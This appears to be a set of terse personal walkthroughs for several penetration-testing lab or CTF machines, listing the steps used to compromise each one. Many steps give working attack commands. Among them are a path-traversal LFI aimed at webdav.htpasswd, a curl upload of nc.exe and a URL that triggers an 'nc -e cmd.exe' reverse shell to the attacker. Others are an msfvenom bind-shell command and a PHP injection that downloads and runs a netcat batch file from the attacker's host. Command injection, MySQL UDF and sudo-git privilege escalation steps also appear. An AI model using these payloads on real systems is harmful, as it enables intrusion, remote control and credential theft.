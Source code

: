 1. Weird ssh port, taunting website with nothing to show, smtp and snmp open
2. Snmp show clamav running in blackhole mode
3. Go exploit works from github, only with bindshell

1. Dir brute until reach download.php
2. LFI in download.php?path=../../../../../../../xampp/security/webdav.htpasswd
3. Crack hash
4. Upload netcat, "curl --user 'wampp:password' -T nc.exe http://targetip/webdev/nc.exe"
5. Upload php command shell
6. Trigger netcat, 'http://targetip/webdav/cmd.php?cmd=nc+-e+cmd.exe+$myip+53'
7. Vulnerable webdav version

1. Vulnerable webapp version
2. Generate shellcode, 'msfvenom -a x86 --platform windows -p windows/shell_bind_tcp LHOST=192.168.45.178 LPORT=80 -f py -b '\x00\x02\x0a\x0d\xf8\xfd' --var-name shellcode'
3. Get root shell

1. Hidden directory in robots.txt
2. KikChat is vulnerable
3. Test and get more info, 'curl -s http://targetip/23423/rooms/get.php\?name=info.php\&ROOM\="<?php phpinfo()+?>"'
4. See that allow_url_fopen and allow_url_include are On
5. Upload bat file to target machine, 'curl -s http://targetip/23423/rooms/get.php\?name=info.php\&ROOM\="<?php+file_put_contents('nc.bat',file_get_contents('http://$myip/nc.txt'));system('nc.bat');usleep(2000000);system('nc.exe+-nv+$targetip+1234+-cmd+cmd.exe');+?>"
6. Once on the machine, replace process with revshell

1. Password in register source code, email on admin forum post
2. Hidden/commented out field in systeminfo source code, '<input type="text" name="cmd" readonly=""> <input type="submit" >''
3. Hidden authenticity_token in source code
4. Create new node in html with it not commented out and submit revshell command
5. base32 encoded ssh key in .bashrc file
6. Missing '-' in ssh keys, ssh in as root

1. SQL injection to webshell on another open ssh, quotation "cmd" was everything
2. Find file that was shared with root for root mysql pass
3. Exploit MySql 5.7 by creating do_system plugin
4. Execute revshell

1. Download ftp files, open with wireshark and get password
2. Notice that there's a hidden directory (/data), which has weird behavior
3. See that it's decoding base64 for LFI
4. Get all components for Werkzeug pin exploit
5. Revshell through console
6. Find commented out password in source files once in machine, su jack
7. History file root pwd

1. Lots of web surface, rabbit holes for directory with binaries, db that you can log into but nothing works, multiple .git repositories, lots of vuln software, ..., there's a directory that's not in raft-large-dir..
2. In the source code of forgot.php there's a hint about implementing sendmail.php and fixing input validation
3. Identify command injection, email=+||id (in the url), then get nc rev shell
4. Find user's password in /var/backups/file.bak
5. Sudo privileges with git, and ur root
